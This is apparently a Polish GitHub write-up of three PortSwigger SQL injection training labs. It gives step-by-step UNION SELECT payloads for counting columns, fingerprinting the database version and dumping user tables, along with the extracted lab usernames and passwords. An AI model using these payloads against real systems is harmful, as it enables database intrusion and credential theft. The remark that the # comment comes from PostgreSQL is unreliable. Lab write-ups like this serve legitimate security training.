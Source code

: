 Laboratorium: Wstrzyknięcie SQL UNION attack, pobieranie wielu wartości w jednej kolumnie

Pierwszym krokiem było określenie liczy kolumn w przechwyconym pakiecie.
``` ' UNION SELECT NULL-- ```
I zwiększamy wartość NULL po przecinku NULL,NULL-- do momętu aż uzyskamy HTTP/2 200 OK 
Następnie jeśli już uskamy tą wartość, musimy dowiedzieć się, która z tych kolumn zawiera tekst, w tym przypadku była to druga kolumna, określiłem to za pomocą ``` ' UNION SELECT NULL,'abc'-- ```
W kolejnym kroku musimy utworzyć zapytanie wiemy, że baza danych zawiera tabelę users z kolumniami username,password. Oto zapytanie.
``` ' UNION SELECT NULL, username || '~' || password FROM users-- ```
Wartość NULL jest tutaj zapisana ponieważ wiemy, że pierwsza tabela nie zawiera tylko druga. dzięki temu zapytaniu uzyskałem zrzut całe bazy danych.
```
                            <th>wiener~xkhstq2rd73ukf1yddjo</th>
                        </tr>
                        <tr>
                            <th>administrator~2nwssjbzicownbljqt8w</th>
                        </tr>
                        <tr>
                            <th>carlos~qvjff1y3mqjqk784v7lc
```

Laboratorium: atak wtryskowy SQL, zapytanie o typ bazy danych i wersję w MySQL i Microsoft

Pierwszym krokiem było określenie liczby kolumn w przechwyconym pakiecie.
``` ' UNION SELECT NULL# ```
Musimy pamiętać, że w różnych bazach danych określa się komentarze zupełnie inaczej.
Poniżej znajduje się pare przykładów, jak komentować:

![obraz](https://github.com/Anogota/PortSwiggger-SQLi/assets/143951834/d6f2c43b-bec8-4207-847f-bf0e923befd8)

W tym przypadku były dwie kolumny.
``` ' UNION SELECT NULL,NULL# ```
Kolejnym krokiem było zidentyfikowane, która kolumna zawiera tekt, ponownie oby dwie zawierały tekst:
``` ' UNION SELECT 'qwe','qwe'# ```
Następnie jeśli już wiemy wszystko wystarczy odgadnąć która baza danych działa na serwerze. Udało mi się dowiedzieć za pomocą tego zapytania:
``` ' UNION SELECT @@version, NULL# ```
Odkryłem również, że działa to ``` ' UNION SELECT version(), NULL# ``` co wydawało mi się bardziej logiczne, ponieważ komentarz # pochodzi od PostgreSQL

Laboratorium: Zaatakowanie wtrysku SQL, wymienianie zawartości bazy danych w bazach danych innych niż Oregon
Pierwszym krokiem było określenie liczby kolumn w przechwyconym pakiecie
``` ' UNION SELECT NULL,NULL-- ```
Dowiedziałem się, że są dwie. Kolejnym krokiem było zidentyfikowane, która kolumna zawiera tekt, ponownie oby dwie zawierały tekst:
``` ' UNION SELECT 'qwe','qwe'-- ```
Następnie jeśli już wiemy wszystko co jest nam potrzebne musimy zrzucić wszystkie nazwy baz danych.
``` ' UNION SELECT table_name, NULL FROM information_schema.tables-- ```
Ujrzałem ciekawą i zarazem nietypową baze danych. ```users_ulaacr```
Następnie musimy zobaczyć jakie kolumny znajdują się w tej bazie danych.
``` ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ulaacr'-- ```
Dzięki temu dowiedzieliśmy się o dwóch ciekawych kolumnach.
```
username_yiyraf
password_sgsccz
```
Następnie musimy wyodrebnić z nich nazwy użytkowników i hasła:
``` ' UNION SELECT username_yiyraf,password_sgsccz FROM users_ulaacr-- ```
Dzięki temu uzyskaliśmy zrzut haseł i nazw użytkoników
```
carlos
	cj1w2piec8pdfjtp2a76
wiener
	vib0xw0oz6v4y98074s0
administrator
	qo33srs73uxgafa3f08o
```

